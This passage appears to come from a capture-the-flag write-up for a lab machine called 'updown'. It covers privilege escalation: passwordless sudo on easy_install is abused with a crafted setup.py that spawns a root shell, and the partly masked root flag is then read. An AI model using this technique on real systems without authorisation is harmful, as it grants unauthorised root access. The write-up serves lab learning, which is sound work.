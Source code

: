 ## Privilege Escalation

Checking what we can run as ```sudo```.
```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

We can run ```easy_install``` as root without password.

Simply checking and running the [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) exploit of this binary we can escalate as root.

```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF

WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.Co2hiEXh3z
Writing /tmp/tmp.Co2hiEXh3z/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.Co2hiEXh3z/egg-dist-tmp-nK7eay

# whoami
root
```

## root.txt

```
root@updown:/tmp/tmp.Co2hiEXh3z# cd /root
root@updown:~# cat root.txt
31****************************af

```

**Thanks for reading!**